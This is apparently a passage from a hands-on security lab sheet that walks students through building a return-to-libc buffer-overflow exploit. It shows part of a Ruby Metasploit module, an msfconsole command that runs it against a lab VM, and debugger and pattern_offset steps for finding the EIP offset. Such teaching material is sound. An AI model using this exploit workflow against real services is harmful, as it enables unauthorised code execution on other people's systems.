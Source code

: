 ```ruby

    # Step 3: return-to-libc
    # Paste Step 3 template code here (found later in the labsheet)
 
    sock.put bad + "\n\n"  
    buf = sock.timed_read(500)
    sock.put "id\n"
    buf = sock.timed_read(500)
    puts "received #{buf}"

    buf = sock.get_once(10)
    sock.put payload.encoded
    handler
    disconnect
  end
end
```

This example has included the `pattern_offset()` call for you. 

==action: Run the exploit directly from the command line:== 

```bash
msfconsole -x 'use exploit/linux/misc/nx_bof1; set RHOST ==edit:Desktop-IP-address==; set LHOST ==edit:Kali-IP-address==; exploit'
```

> Tip: After the exploit has run you can run the same version again by running (msf) `exploit` or press `Ctrl-D` to exit msfconsole and then run the above command to run an updated version of your exploit.

When prompted to attach your debugger...

==VM: On your Desktop Debian Linux VM== 

==action: Start debugging the program:==

```bash
edb --attach `pgrep -n Ch_nx_BOF_1`
```

edb automatically pauses execution when attaching to a process. Resume execution by pressing the ‘play’ button.

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Hit enter to resume your exploit==.

==VM: On your Desktop Debian Linux VM (victim service)==

The exploit should have caused an Illegal Access Fault (a segfault). The error message will provide an address you can use to calculate the offset to the controlled ==edit:EIP-value==. 

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Calculate the offset using metasploit's pattern\_offset.rb script:==

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q ==edit:EIP-value== -l 500
```

